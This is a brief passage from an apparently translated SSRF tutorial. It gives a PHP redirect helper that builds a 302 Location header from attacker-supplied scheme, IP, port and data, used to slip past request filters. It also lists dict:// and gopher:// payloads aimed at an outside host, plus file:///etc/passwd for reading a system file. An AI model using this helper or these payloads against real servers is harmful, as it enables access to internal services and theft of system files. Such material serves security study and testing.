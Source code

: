 Or you can use the 302 jump to bypass the limitations of the HTTP protocol.


Auxiliary script


```php

<?php

$ip = $_GET['ip'];

$port = $_GET['port'];

$scheme = $_GET['s'];

$data = $_GET['data'];

header("Location: $scheme://$ip:$port/$data");

?>

```



[Tencent SSRF vulnerability (very good use point) with script] (https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)


## Agreement Utilization


- Dict agreement


    ```

    dict://fuzz.wuyun.org:8080/helo:dict

    ```



- Gopher protocol


    ```

    gopher://fuzz.wuyun.org:8080/gopher

    ```



- File protocol


    ```

    file:///etc/passwd

    ```
